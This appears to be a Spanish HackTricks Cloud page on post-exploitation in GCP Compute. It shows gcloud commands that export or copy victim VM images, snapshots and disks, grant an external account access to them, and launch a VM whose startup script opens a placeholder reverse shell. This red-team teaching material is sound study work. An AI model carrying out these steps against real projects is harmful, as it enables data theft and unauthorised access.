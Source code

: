 # GCP - Compute Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (Redes) consulta:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes ya existentes** o **crear nuevas imágenes de VMs en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y, por supuesto, **privilegios sobre cloudbuild**, ya que es el **servicio** que se va a solicitar para realizar la exportación.\
Además, para que esto funcione, el SA de codebuild y el SA de compute necesitan permisos privilegiados.\
El SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Instantáneas y Discos localmente

No es posible exportar instantáneas y discos directamente, pero es posible **transformar una instantánea en un disco, un disco en una imagen** y, siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeccionar una imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen,** es posible otorgar acceso a una cuenta externa sobre la imagen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
y luego crea una nueva VM a partir de ella:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si no pudiste dar acceso a tu cuenta externa a través de la imagen, podrías lanzar una VM usando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un shell inverso** para acceder a la imagen añadiendo el parámetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeccionar un Snapshot/Disk adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **otorgar acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, otorgar acceso sobre el snapshot o crear un disco a partir de él):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Adjuntar el disco** a una instancia:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar el disco dentro de la VM:

1.  **SSH en la VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Típicamente, puedes encontrarlo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatear y Montar el Disco** (si es un disco nuevo o en bruto):
*   Crear un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montar el disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si **no puedes dar acceso a un proyecto externo** a la instantánea o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que la instantánea/disco**.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
